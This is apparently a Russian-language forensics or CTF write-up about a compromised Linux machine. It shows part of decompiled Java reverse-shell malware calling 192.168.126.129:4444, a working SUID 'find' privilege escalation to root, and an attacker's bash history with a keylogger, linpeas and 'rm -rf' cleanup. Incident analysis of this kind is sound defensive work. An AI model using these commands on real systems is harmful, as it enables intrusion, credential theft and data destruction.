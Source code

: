 ```java 
                po.flush();
                try {
                    Thread.sleep(50L);
                } catch (InterruptedException e) {
                    e.printStackTrace();
                }
                try {
                    p.exitValue();
                    break;
                } catch (Exception e2) {
                }
            }
            p.destroy();
            s.close();
        } catch (IOException e3) {
            e3.printStackTrace();
        }
    }
}
```
Видно, что впо создает реверс шелл(который обращается к `192.168.126.129:4444`).
## Как повысил свои права?
От рута проанализируем /root/.bash_history file. Видимо подозрительный файл `/usr/bin/find`
```bash
ls -lah /usr/bin/find
-> -rwsr-sr-x 1 root root 276K Mar 23 2022 /usr/bin/find
```

Видим, что файл имеет `suid` флаг, что позволяет поднять привелегии. Файл редактировался 23 марта 2022 года, что позволяет сделать вывод о том, что файл не бекдор от злоумышленника.
Повышение привелегий до рута:
```bash
sudo install -m =xs $(which find) .
./find . -exec /bin/sh -p \; -quit
## root access
```

## Как злоумышленник узнал пароль от passwords.kdbx ?
Продолжая анализировать history, видим, что на компьютере использовалась программа logkeys.

(выдержка)
```bash
cat cat Makefile
cat build//config.log
ls build
ls -la u
sh linpeas.sh
ping 192.168.126.129
reboot
ifconfig
base64 minecraft.jar
exit
./logkeys -m en_US_ubuntu_1204.map -s
./logkeys --us-keymap en_US_ubuntu_1204.map -s
./logkeys
./logkeys -s -u en_US_ubuntu_1204.map
cd src/
./logkeys -s
cd Downloads/build/src/
lsusb
ls /home/
rm -rf /home/ubuntu/
userdel -r ubuntu
```